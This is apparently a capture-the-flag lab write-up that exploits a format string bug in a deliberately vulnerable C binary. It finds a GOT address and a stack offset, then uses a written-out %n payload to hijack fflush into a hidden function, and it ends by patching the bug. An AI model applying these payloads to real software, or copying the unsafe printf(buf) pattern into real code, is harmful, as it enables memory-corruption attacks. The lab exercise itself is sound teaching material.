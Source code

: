 Let's take a look at the source code...

```
#include <stdlib.h>
#include <stdio.h>

int main()
{
	fun0();
}

void fun0()
{
	puts("Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.\n");
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf(buf0);
	fflush(buf0);
}

void fire_exit()
{
	printf("Oh look, a fire exit. That's why we are still underbugdget. Level Cleared \n");
}
```

So looking at this code, we see that the objective is to run the fire_exit function. However there isn't anywhere in the code that directly calls thay function. However after the insecure printf call, we can see a fflush() function call. We can craft a format string exploit to overwrite the address of the fflush variable with that of the fire_exit() function, thus when when the binary tries to run the fflush function it will just run the fire_exit() function. First thing we will need is the address of the fire_exit() function.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ objdump -t f4 | grep fire_exit
0804853d g     F .text	00000019              fire_exit
```

So we now have the address of the fire_exit() function, which is 0x0804853d. Now we need to find the address of the fflush function. Since fflush is in libc (which is a shared library), it is a dynamic object and we can view it with objdump.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ objdump -R f4 | grep fflush
0804a010 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

So now we have the address of the fflush function, which is 0x0804a010, we now need to find out where our input is stored on the stack. It shouldn't be too far away.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ python -c 'print "0000" + ".%x"*20' | ./f4
Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.

0000.64.f7fb45a0.f0b5ff.ffffd02e.1.c2.30303030.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e
^C
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ 
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ python -c 'print "0000" + "%7$x"' | ./f4
Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.

000030303030
^C
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ 
```

So we now know our input is stored 7 stack values away. Let's try to overwrite the address of the fflush function without any regards as to what we overwrite it with, as a proof of concept.

```
root@tux:/Hackery/escape/fmt_str/f4# python -c 'print "\x10\xa0\x04\x08" + "%7$n"' > pwn_concept
root@tux:/Hackery/escape/fmt_str/f4# exit
exit
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ gdb ./f4
```

One wall of text later...

```
gdb-peda$ r < pwn_concept
```

One more wall of text later...

```
Stopped reason: SIGSEGV
0x00000004 in ?? ()
gdb-peda$ 
```

So we can see that the program tried to execute an instruction at the address 0x00000004, and because that is not a valid address we got the SIGSEV error. So we proved that we can overwrite the value, and since we only wrote a 32 hex bit address (which are only four bytes) printf wrote the decimal value 4 to the location since the -n flag will write for how many bytes we give it. To write the address we will need to, we will just need to take the address 0x0804853d, subtract 4 from it and write as many bytes as we get from that difference using the -x flag.

```
>>> 0x0804853d - 4
134513977
```

So we will need to write 134513977 bytes in order to get the write address. So our final exploit ends up looking like this.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ python -c 'print "\x10\xa0\x04\x08" + "%134513977x" + "%7$n"' | ./f4
```

Once you run it, it should take like a half a minute to a couple of minutes to run (depends if your run it on a Poweredge or Raspberry Pi) since it is writing a metric butt ton worth of bytes to that one address. However after the wait, you should get this lovely message.

```
Oh look, a fire exit. That's why we are still underbugdget. Level Cleared 
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ 
```  

And just like that, we pwned the binary. Now let's patch it.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ cat f4_secure.c
#include <stdlib.h>
#include <stdio.h>

int main()
{
	fun0();
}

void fun0()
{
	puts("Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.\n");
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf("%s", buf0);
	fflush(buf0);
}

void fire_exit()
{
	printf("Oh look, a fire exit. That's why we are still underbugdget. Level Cleared \n");
}
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ python -c 'print "0000" + ".%x"*20' | ./f4_secure 
Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.

0000.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
^C
guyinatuxedo@tux:/Hackery/escape/fmt_str/f4$ 
```
And just like that, we patched the binary.
